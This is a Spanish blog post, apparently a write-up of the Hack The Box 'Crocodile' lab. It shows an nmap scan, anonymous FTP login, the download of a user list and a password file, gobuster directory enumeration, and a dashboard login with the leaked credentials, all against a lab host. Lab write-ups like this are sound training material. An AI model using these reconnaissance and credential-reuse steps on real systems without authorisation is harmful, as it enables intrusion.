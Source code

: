 ```yaml
---
title: "Crocodile"
date: 2022-05-15T22:03:58-05:00
draft: false

description: "Resolución del reto Crocodile de Hack The Box"
hideToc: false #(false: se muestra el indice a la derecha ... true no se muestra)
enableToc: true #(Se quita o no la opci贸n de derecha que permite ocultar o no)
enableTocContent: false  #(Indice pero vertical)
author: Brayan Rodriguez #(Autor)
authorEmoji: 👺

#(Etiquetas de referencia al contenido)
tags:
- Exposición de datos
- Fundamentos

categories:
- Ciberseguridad
- Hack-the-box
image: images/HTB/03_Crocodile/crocodile.png

---
```


Se realiza ub escaneo al activo y se detecta los puertos TCP abiertos 21 y 80. Lugo se procede a realizar un escaneo más personalizado que permita detectar las versiones del los servicios. 

{{< highlight Bash >}}

└─$ sudo nmap -p21,80  -sV -sC $IP -vvvv
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-15 20:41 -05
Nmap scan report for 10.129.93.96
Host is up, received echo-reply ttl 63 (0.18s latency).
Scanned at 2022-05-15 20:41:09 -05 for 12s

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.83
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 1248E68909EAE600881B8DB1AD07F356
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Unix

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:41
Completed NSE at 20:41, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:41
Completed NSE at 20:41, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:41
Completed NSE at 20:41, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.69 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
                                                       
{{< /highlight >}}													   

Nos conectamos a nuestro objetivo a través del servido ftp. Se logea a través del usuario anonymous

{{< highlight Bash >}}

$ ftp $IP                             
Connected to 10.129.93.96.
220 (vsFTPd 3.0.3)
Name (10.129.93.96:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>

{{< /highlight >}}

Se reevisa la información interna y se detecta credenciales. Se extrae la información 

{{< highlight Bash >}}

ftp> get allowed.userlist 
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||47545|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |*************************************************************************************************|    33        1.87 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.15 KiB/s)
gftp> ge allowed.userlist.passwd 
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||40266|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |*************************************************************************************************|    62        6.25 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.30 KiB/s)

{{< /highlight >}}

Se realiza una enumeración de directorios y se detacta la ruta ***dashboard***

{{< highlight Bash >}}

─$ gobuster dir -u http://10.129.93.96 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.93.96
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/05/15 21:07:16 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://10.129.93.96/assets/]
/css                  (Status: 301) [Size: 310] [--> http://10.129.93.96/css/]   
/js                   (Status: 301) [Size: 309] [--> http://10.129.93.96/js/]    
/fonts                (Status: 301) [Size: 312] [--> http://10.129.93.96/fonts/] 
/dashboard            (Status: 301) [Size: 316] [--> http://10.129.93.96/dashboard/]
Progress: 6267 / 207644 (3.02%)                                                    ^C
[!] Keyboard interrupt detected, terminating.
                                                                                    
===============================================================
2022/05/15 21:09:20 Finished
===============================================================

{{< /highlight >}}

Se ingresa al portal http://{IP}/dashboard y se detecta una portal de inicio de sesión. 

![image info](/images/HTB/03_Crocodile/login.png)

Se prueba las credenciales encontradas y bingo ! Se logra ingresar al sistema. 

![image info](/images/HTB/03_Crocodile/flag.png)
